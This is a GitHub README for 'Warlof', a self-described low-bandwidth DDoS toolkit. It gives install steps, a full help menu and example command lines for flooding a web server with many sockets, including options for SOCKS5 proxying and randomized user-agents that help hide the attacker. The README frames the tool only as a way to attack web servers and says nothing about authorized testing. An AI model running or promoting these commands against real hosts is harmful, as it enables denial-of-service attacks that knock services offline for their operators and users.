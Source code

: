 <h1 align="center">
  <br>
  <a  href="https://github.com/thenurhabib/warlof"><img src="./img/logo.png" width="220px" border="2px" ></a>
  <br>
  Warlof
  <br>
</h1>

<h4 align="center">Low Bandwidth Distributed Denial-of-service attack ToolKit.</h4>

<br>

<p align="center">
  <a href="https://github.com/thenurhabib/warlof/releases">
    <img src="https://img.shields.io/github/release/thenurhabib/warlof.svg">
  </a>
  <a href="https://travis-ci.com/thenurhabib/warlof">
    <img src="https://img.shields.io/travis/com/thenurhabib/warlof.svg">
  </a>
  <a href="https://github.com/thenurhabib/warlof/issues?q=is%3Aissue+is%3Aclosed">
      <img src="https://img.shields.io/github/issues-closed-raw/thenurhabib/warlof.svg">
  </a>
</p>

<br>

![multiple](./img/ss1.png)

<hr>

### Warlof is a Low Bandwidth Distributed Denial-of-service attack (DDoS) Toolkit. You can use it to attack on a web server with multiple sockets. You can customize how many requests you wanna send.

<br>

### Main Features
- DDoS Attack
- Send request in HTTPS also.
- Advance Error Handeling.
- Customize request numbers.
- Multiprocessing support

<br>

### Documentation
### install
```yaml
git clone https://github.com/thenurhabib/warlof.git
cd warlof
bash setup.sh
python3 warlof.py --help
```


#### Usage

```yaml
┌──(habib㉿kali)-[~/Desktop/warlof]
└─$ python3 warlof.py -h                  

             __       __                                                                                                
            (, )  |  /         /)    /)                                                                                 
               | /| / _   __  // ___//                                                                                  
               |/ |/ (_(_/ (_(/_(_)/(_                                                                                  
               /  |               /)                                                                                    
                                 (/                                                                                     
              @thenurhabib                                                                                              
                                                                                                                        
~ Low Bandwidth Denial-of-service attack (DDOS) Toolkit ~                                                               
    
usage: ⏬⏬

Warlof  - Help Menu

positional arguments:
  host                  - Domain Name or IP Address.
                                                                                                                        
optional arguments:                                                                                                     
  -h, --help            show this help message and exit                                                                 
  -p PORT, --port PORT  Domain/IP Port Number                                                                           
  -s SOCKETS, --sockets SOCKETS                                                                                         
                        Number of Requests.                                                                             
  -v, --verbose         Show attack details in terminal.                                                                
  -x, --useproxy        Use SOCKS5 proxy for connecting.                                                                
  --proxy-host PROXY_HOST                                                                                               
                        SOCKS5 proxy host.                                                                              
  --proxy-port PROXY_PORT                                                                                               
                        SOCKS5 proxy port                                                                               
  --https               Use HTTPS for the requests.                                                                     
  -ua, --randuseragents                                                                                                 
                        Randomizes user-agents with requests.                                                           
  --sleeptime SLEEPTIME                                                                                                 
                        Sleep time for every request..                                                                  
                                                                                                                                                     
```
<br>

### Example
```bash 
python3 warlof.py example.com
python3 warlof.py example.com -v
python3 warlof.py example.com -p 80
python3 warlof.py example.com --https
python3 warlof.py example.com --sleep 5
```


<br>


### Author
```yaml
Name       : Md. Nur habib
Medium     : thenurhabib.medium.com
Twitter    : https://twitter.com/thenurhab1b
HackerRank : https://www.hackerrank.com/thenurhabib

```

##### Thank You.
